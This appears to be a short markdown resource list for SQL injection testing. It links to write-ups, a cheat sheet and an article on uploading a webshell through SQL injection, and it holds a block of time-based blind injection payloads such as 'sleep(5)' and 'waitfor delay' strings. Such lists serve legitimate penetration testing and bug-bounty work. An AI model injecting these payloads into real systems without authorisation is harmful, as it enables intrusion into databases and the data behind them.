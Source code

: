 ## 1. SQL checklist

https://www.notion.so/SQL-INJECTION-e89cf8a972d24a239821b4449f34f4e0


## 2. 
https://sapt.medium.com/sqli-on-a-bugcrowd-private-program-17858b57ec61


```
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
```

## SQL Injection with FFUF and Sqlmap
https://0xmahmoudjo0.medium.com/how-i-found-multiple-sql-injection-with-ffuf-and-sqlmap-in-a-few-minutes-9c3bb3780e8f

## Advanced sql injection cheat sheet
https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet

## upload webshell using sql
https://securityonline.info/sql-injection-rce/





